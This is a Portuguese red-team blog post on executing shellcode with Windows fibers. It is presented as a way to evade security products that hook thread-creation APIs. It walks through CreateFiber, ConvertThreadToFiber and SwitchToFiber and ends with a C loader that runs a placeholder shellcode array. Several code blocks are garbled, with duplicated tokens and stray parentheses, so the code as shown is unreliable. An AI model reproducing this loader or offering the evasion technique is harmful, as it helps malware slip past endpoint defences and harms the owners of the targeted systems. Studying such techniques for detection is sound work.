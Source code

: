 ```yaml
---
title: Using fibers for shellcode execution
published: 2024-11-05
description: 'Using fibers instead of threads to execute shellcode'
image: './banner.png'
tags: [red-team, malware]
category: 'malware'
draft: false 
lang: ''
---
```


# Introdução

Em estudos recentes eu estava tendo alguns problemas ao contornar uma solução de segurança, pois não conseguia dar bypass no hook em que era colocado nas api's de thread, como CreateRemoteThread e suas variações, foi então que pesquisando um pouco sobre uma alternativa ao uso de threads para executar codigo eu li sobre os Fibers na documentação da Microsoft, e também vi que era possivel aproveitar deles para o nosso cenario de injeção de codigo.

# O que são os Fibers?

De acordo com a documentação da microsoft:

```A fiber is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them. Each thread can schedule multiple fibers.```

A maior diferença entre fibers e threads é a comunicação com o kernel. Cada thread possui sua própria stack e conjunto de registradores, mas acaba compartilhando o mesmo espaço de memória e recursos aos quais pertence.

No caso de context switch entre threads, isso será gerenciado pelo sistema operacional e envolve um custo de desempenho maior, pois o sistema operacional precisará salvar o estado atual da thread para, então, carregar o estado da nova thread.

Já com os fibbers, como eles não são gerenciados pelo kernel ou seja são gerenciados pela propia aplicação, o context switch entre fibers é muito menor do que entre threads, pois não há nescessidade de chamadas ao sistema operacional para alternar entre elas.

# Como utilizamos os Fibers?

Para execurtamos uma tarefa com Fibers vamos precisar de três funções. Existem algumas outras correlatas a utilização dos fibers, mas para a execução de um shellcode vamos utilizar apenas três. 

A descrição delas pelo msdn é um pouco redundante então tentei captar oque eu entendi.

## [CreateFiber](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber)
É usada para criar uma nova fiber, que é uma unidade leve de execução gerenciada pela aplicação.

Se a função for bem-sucedida, CreateFiber vai retornar o endereço do Fiber criado.
```c++
LPVOID CreateFiber(
  [in]           SIZE_T                dwStackSize,
  [in]           LPFIBER_START_ROUTINE lpStartAddress,
  [in, optional] LPVOID                lpParameter
);
```

## [ConvertThreadToFiber](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertfibertothread)
É usada para converter uma thread existente em uma fiber. Isso é necessário porque, no Windows, apenas uma thread que já foi convertida para uma fiber pode criar e alternar para outras fibers.
```c++
LPVOID ConvertThreadToFiberConvertThreadToFiber((
    [[inin,, optionaloptional]] LPVOID lpParameterLPVOID lpParameter 
));;
```

## [SwitchToFiber](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber)
Responsável pela troca e execução para o fiber especificado. Esse é o ponto principal do controle manual das fibers, permitindo que você alterne entre diferentes fibers de acordo com as necessidades da aplicação.
```c++
void SwitchToFiber(
  [in] LPVOID lpFiber
);
```

# Executando código com Fibers

Já sabendo das funções que precisamos e seus parametros, basta montar o código

```c

#include <stdio.h>
#include <windows.h>

unsigned char shellcode[] = {0x17, 0x5a, 0x63, ...};

int main(){

  LPVOID fibershellcode = NULL;
  
    if(!(fibershellcode = CreateFiber((0x000, (LPFIBER_START_ROUTINELPFIBER_START_ROUTINE)shellcode, NULL))){
          printf("Erro ao criar o objeto fiber \n");
          return -1;
    }

    ConvertThreadToFiber(NULL);

    SwitchToFiber(fibershellcode);
    
}
```

# Conclusão

Bom, é basicamente isso, o uso de Fibers para esse contexto também não é uma bala de prata contra proteções, acredito que algumas soluções devam monitorar também as funções de fibers, mas é um recurso muito legal se bem utilizado.

